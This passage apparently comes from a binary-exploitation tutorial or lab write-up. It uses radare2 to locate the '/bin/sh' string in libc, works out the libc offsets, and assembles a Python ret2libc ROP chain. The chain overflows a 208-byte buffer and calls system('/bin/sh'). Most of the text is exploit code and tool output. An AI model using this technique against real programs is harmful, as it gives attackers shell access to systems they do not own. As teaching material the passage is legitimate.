 [x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[0x00021da0]> / /bin/sh
Searching 7 bytes in [0x0-0x1e6a7c]
hits: 1
Searching 7 bytes in [0x3e7618-0x3f0ae0]
hits: 0
0x001b3d88 hit0_0 .cempty == 1-c/bin/shexit 0canonica.
[0x00021da0]> 
```
Or we can perhaps do the sime in dynamic mode in radare by searching in all mem space:
```
[0x5555555546c7]> e search.in = dbg.maps
[0x5555555546c7]> / /bin/sh
0x7ffff7b95d88 hit0_0 .cempty == 1-c/bin/shexit 0canonica.
```
And we can substract libc base addr to whatever addr easily to know the delta:
```
[0x5555555546c7]> ?X 0x7ffff7b95d88-0x7ffff79e2000 
1b3d88
```
So we end up with the variables for our rop chain as it follows:
``` 
libc_base_address = 0x7ffff79e2000
pop_rdi = 0x555555554753
ret = 0x555555554295
bin_sh = libc_base_address+0x1b3d88
system_call = libc_base_address+0x4f420
exit_call = libc_base_address+0x43110
```
And we can craft that into our exploit:
```
import sys
import struct

libc_base_address = 0x7ffff79e2000

pop_rdi = 0x555555554753
ret = 0x555555554295

bin_sh = libc_base_address+0x1b3d88
system_call = libc_base_address+0x4f420
exit_call = libc_base_address+0x43110

buf = b"A"* 208
buf += b"BBBBBBBB" #RBP overwrite

#buf += struct.pack('<Q',ret)
buf += struct.pack('<Q',pop_rdi) #RIP overwrite
buf += struct.pack('<Q',bin_sh) #RIP overwrite
buf += struct.pack('<Q',system_call) #RIP overwrite
buf += struct.pack('<Q',exit_call) #RIP overwrite
